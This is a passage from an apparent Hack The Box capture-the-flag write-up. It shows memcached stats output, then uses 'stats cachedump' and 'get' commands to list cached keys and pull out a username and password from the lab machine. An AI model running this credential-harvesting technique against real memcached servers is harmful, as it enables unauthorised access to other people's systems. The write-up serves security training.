```
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 0
STAT 1:cmd_set 1070
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048576
END
```

What's really useful for us is the information about the keys. With the `stats cachedump` command we can see the keys currently stored.

```
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

Then with the `get` command and the key name, we find some credentials in the cached values: `luffy / 0n3_p1ec3`

```
get link
VALUE link 0 21
https://hackthebox.eu
END

get user
VALUE user 0 5
luffy
END

get passwd
VALUE passwd 0 9
0n3_p1ec3
END

get file
VALUE file 0 7
nothing
END

get account
VALUE account 0 9
afhj556uo
END
```
